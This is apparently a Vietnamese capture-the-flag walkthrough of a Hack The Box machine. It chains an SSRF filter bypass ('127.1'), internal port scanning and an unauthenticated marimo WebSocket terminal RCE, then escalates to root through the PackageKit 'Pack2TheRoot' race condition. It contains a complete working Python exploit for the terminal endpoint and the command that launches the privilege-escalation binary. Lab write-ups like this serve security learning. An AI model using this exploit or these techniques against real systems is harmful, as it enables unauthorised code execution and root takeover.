


Đầu tiên chúng ta sẽ khởi động máy ảo và sử dụng nmap để tìm các cổng đang mở trên ip được cấp


Có thể thấy có 3 cổng đang mở là 22 với ssh, 80 với http và 443 với https
Truy cập vào cổng 80 này

Sau khi thực hiện dạo quanh một vòng trang web này tôi phát hiện một file `app.js` và một path `/portal.html` tồn tại khi click vào `Client Insights`

Sau đó tôi truy cập vào file này và phát hiện đây là một đoạn mã đã bị obfuscate rất nặng. Việc cố gắng reverse lại tập tin như này khá tốn thời gian

Vì vậy tôi sẽ dùng DevTools để trình duyệt thực thi mã JS và quan sát tuy nhiên không có phát hiện gì quá nổi bật
Sau khi chuyển sang path `/portal.html`

Tôi nghi rằng đây là một lỗ hổng SSRF sau khi dùng burpsuite và bắt request gửi đi 

Vì thế hãy thử thay url bằng ip `127.0.0.1` và xem respone của nó

Sau khi xem response trả về có thể thấy input này đã bị server chặn nên tôi đã thử bypass bằng `127.1` và đã thành công. Vì trên Linux 127.1 được phân giải thành 127.0.0.1 và nó cũng vượt qua được bộ lọc của server

Sau khi đã vượt qua được cơ chế chặn, bước tiếp theo là tận dụng nó làm công cụ quét cổng nội bộ bằng cách thêm số cổng vào địa chỉ loopback; tôi đã thử một vài cổng và cách này đã thành công

Cổng 5000 đang phản hồi bằng JSON và từ chối yêu cầu GET — có vẻ như đây là cùng một framework API backend với chính `/api/validate`, chỉ là nó cũng được cấu hình để lắng nghe kết nối nội bộ

Sau khi tìm hiểu tôi phát hiện rằng đây là một marimo notebook server, được bảo vệ bởi một trang đăng nhập yêu cầu password hoặc access token. Marimo là một công cụ notebook dựa trên Python, các máy chủ notebook dạng này thường gặp vấn đề về xác thực tại các điểm cuối (endpoint) WebSocket hoặc terminal
Trước khi tấn công vào marimo tôi đã thực hiện quét lại các thư mục trên trang web và phát hiện ra một đường dẫn `/status` trả về 403. Đây là một dấu hiệu thường thấy ở các điểm cuối trạng thái hoặc cấu hình của Nginx vốn bị giới hạn quyền truy cập (ACL) chỉ cho phép địa chỉ 127.0.0.1
Vì các yêu cầu SSRF xuất phát từ chính máy chủ đó, nên việc định tuyến yêu cầu thông qua nó sẽ giúp vượt qua được hạn chế này

Thêm host `nb-1be3782a8afd3ad5.cohort.htb` vào file /etc/hosts và sau khi truy cập vào host này tôi nhận được một giao diện nhập access token hoặc password

Sau khi search thì đây là một CVE-2026–39987 là pre-authentication RCE được gây ra bởi việc WebSocket terminal không thực hiện authentication check
Marimo có nhiều WebSocket endpoint như `/ws`, `/terminal/ws`,... Endpoint `/ws` có kiểm tra authentication thông qua `validate_auth()`. Tuy nhiên ở phiên bản lỗi, `/terminal/ws` không gọi `validate_auth()`, cũng không có decorator yêu cầu quyền phù hợp. Điểm quan trọng là `/terminal/ws` không chỉ trả về một dữ liệu thông thường, nó dùng WebSocket để kết nối trực tiếp với pseudo-terminal vì vậy khi server tạo PTY thì một process shell được tạo ra
Do việc challenge này chạy trên cổng 443 tức là https sẽ có TLS kết hợp với WebSocket vì thế tôi đã viết một script trước khi gửi request lên đã bọc TCP bằng TLS sau đó gửi lên server và xử lý frame trả về 
```
import socket
import ssl
import base64
import os
import struct
import time
import select

TARGET_IP = "10.129.80.48"
HOST = "nb-1be3782a8afd3ad5.cohort.htb"
PORT = 443
PATH = "/terminal/ws"

def connect():
    print(f"[*] Connecting to {TARGET_IP}:{PORT}")

    raw = socket.create_connection(
        (TARGET_IP, PORT),
        timeout=5
    )
    
    print("[*] Starting TLS...")
    ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)

    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    sock = ctx.wrap_socket(
        raw,
        server_hostname=HOST
    )
    print("[+] TLS established")
    key = base64.b64encode(
        os.urandom(16)
    ).decode()
    request = (
        f"GET {PATH} HTTP/1.1\r\n"
        f"Host: {HOST}\r\n"
        "Upgrade: websocket\r\n"
        "Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: {key}\r\n"
        "Sec-WebSocket-Version: 13\r\n"
        f"Origin: https://{HOST}\r\n"
        "\r\n"
    )
    print("[*] Sending WebSocket handshake...")
    sock.sendall(request.encode())
    # Read HTTP response headers
    sock.settimeout(5)
    response = b""
    while b"\r\n\r\n" not in response:
        chunk = sock.recv(4096)
        if not chunk:
            raise ConnectionError("Server closed the connection")
        response += chunk
    print("\n[+] Handshake response:")
    print(response.decode(errors="replace"))
    if b"101 Switching Protocols" not in response:
        raise RuntimeError(
            "WebSocket handshake failed"
        )
    print("[+] WebSocket connection established")
    return sock

def send_text(sock, text):
    payload = text.encode()
    mask = os.urandom(4)
    masked_payload = bytes(
        byte ^ mask[i % 4]
        for i, byte in enumerate(payload)
    )
    length = len(payload)
    first_byte = 0x81
    if length <= 125:
        header = struct.pack(
            "!BB",
            first_byte,
            0x80 | length
        )
    elif length <= 65535:
        header = struct.pack(
            "!BBH",
            first_byte,
            0x80 | 126,
            length
        )
    else:
        header = struct.pack(
            "!BBQ",
            first_byte,
            0x80 | 127,
            length
        )
    sock.sendall(
        header +
        mask +
        masked_payload
    )

def recv_frames(sock, duration=3):
    end = time.time() + duration
    buffer = b""
    output = b""
    while time.time() < end:
        readable, _, _ = select.select(
            [sock],
            [],
            [],
            0.5
        )
        if not readable:
            continue
        try:
            chunk = sock.recv(4096)
        except (socket.timeout, ssl.SSLWantReadError):
            continue
        if not chunk:
            break
        buffer += chunk
    while len(buffer) >= 2:
        first = buffer[0]
        second = buffer[1]
        masked = bool(second & 0x80)
        payload_length = second & 0x7f
        index = 2
        if payload_length == 126:
            if len(buffer) < 4:
                break
            payload_length = struct.unpack(
                "!H",
                buffer[2:4]
            )[0]
            index = 4
        elif payload_length == 127:
            if len(buffer) < 10:
                break
            payload_length = struct.unpack(
                "!Q",
                buffer[2:10]
            )[0]
            index = 10
        mask_key = None
        if masked:
            if len(buffer) < index + 4:
                break
            mask_key = buffer[
                index:index + 4
            ]
            index += 4
        if len(buffer) < index + payload_length:
            break
        payload = buffer[
            index:index + payload_length
        ]

        if mask_key:
            payload = bytes(
                byte ^ mask_key[i % 4]
                for i, byte in enumerate(payload)
            )
        output += payload
        buffer = buffer[
            index + payload_length:
        ]
    return output

if __name__ == "__main__":
    import sys
    command = (
        sys.argv[1]
        if len(sys.argv) > 1
        else "id"
    )
    sock = connect()
    print("[*] Reading initial data...")
    initial = recv_frames(sock, 3)
    if initial:
        print(
            initial.decode(
                errors="replace"
            )
        )
    print(f"[*] Sending: {command}")
    send_text(
        sock,
        command + "\r"
    )
    time.sleep(1)
    output = recv_frames(
        sock,
        4
    )
    print("\n[+] Output:")
    print(
        output.decode(
            errors="replace"
        )
    )
    sock.close()
```

Chúng ta đã thực thi được lệnh id. Giờ chỉ cần thực hiện lệnh cat để đọc file user.txt trong thư mục của user


Sau khi có được shell với quyền của user marimo, tôi thực hiện kiểm tra privilege escalation thông thường như `sudo -l` yêu cầu mật khẩu, cron job hay SUID binary nhưng không có cái nào đáng chú ý cả. Tuy nhiên điều đáng chú ý là các package đã được cài đặt

Điểm đáng chú ý chính là packagekit ở phiên bản 1.2.8. Đây là một lỗ hổng leo thang đặc quyền trong PackageKit với phiên bản từ 1.0.2 đến 1.3.4 có tên 'Pack2TheRoot'. Đây là một race condition kiểu TOCTOU(Time-of-Check-to-Time-of-Use) trong các daemon PackageKit chạy với quyền root xử lý các transaction `InstallFile`s thông qua D-Bus.
Deamon cho phép một caller:
- Mở một transaction
- Gửi request `InstallFiles` với flag `SIMULATE` để mô phỏng quá trình cài đặt
- Sau đó, do flags và đường dẫn file của transaction không được khóa trước khi giai đoạn thực thi thực sự đọc chúng, một lời gọi InstallFiles thứ hai trên cùng transaction có thể ghi đè them số đó trước khi request mô phỏng hoàn thành
Kết quả là daemon có thể thực hiện quá trình cài đặt thật thay vì chỉ thực hiện quá trình mô phỏng.

Có một PoC công khai [shibaaa204](https://github.com/shibaaa204/Pack2TheRoot). Sử dụng PoC này để leo quyền root sau khi clone git này về khởi động server python, tải và cấp quyền cho file tải lên này 

Vì exploit cần nhiều thời gian hơn một request/response đơn lẻ để tạo package và giành chiến thắng trong race condition, chạy nó ở background trên máy đích và chờ một khoảng thời gian: chạy file script với lệnh này `"rm -f /tmp/.suid_bash /tmp/pk.log; nohup /tmp/exploit.bin > /tmp/pk.log 2>&1 & sleep 1; echo started"`. Chờ một khoảng thời gian và sau đó kiểm tra lại quyền


Đọc file root.txt để lấy flag và hoàn thanh
